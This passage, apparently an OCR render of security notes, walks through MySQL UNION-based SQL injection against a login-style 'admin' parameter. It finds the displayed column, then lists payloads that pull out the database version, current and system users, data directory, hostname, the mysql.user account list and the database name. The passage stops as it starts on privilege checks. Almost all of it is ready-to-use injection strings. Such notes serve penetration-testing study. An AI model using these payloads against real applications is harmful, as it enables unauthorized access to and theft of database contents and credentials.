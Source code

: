 ```
payload = admin' union select null, null;# => no error and displays additional line/record with black data
payload = admin' union select 'w01t', 'w02t';# => no error and displays additional line / record/ row

[+] Note:
- Sometime, not all columns are displayed by the application, so we need to find which column is displayed.
- if found 'w02t' in HTML, This indicates, although 2 columns are returned but application displays only 2nd column.
- we need only one column to extract all data.
```

### Data Exfiltration

Consider the second column is `displayed` at user end.

```
extract the database version:
=============================
payload = admin' union select null, version();#


find the database username:
===========================
payload = admin' union select null, user();#

Enumerate the location of the database file:
============================================
payload = admin' union select null, @@datadir;#

Enumerate the system user:
===========================
payload = admin' union select null, system_user();#

Enumerate the hostname:
======================
payload = admin' union select null, @@hostname;#

Enumerate list of mysql users:
=============================
payload = admin' union select null, user from mysql.user;#

Enumerate database name:
========================
payload = admin' union select null, database();#
```

### Verify user privileges

Check if the present database user can read and write a file,
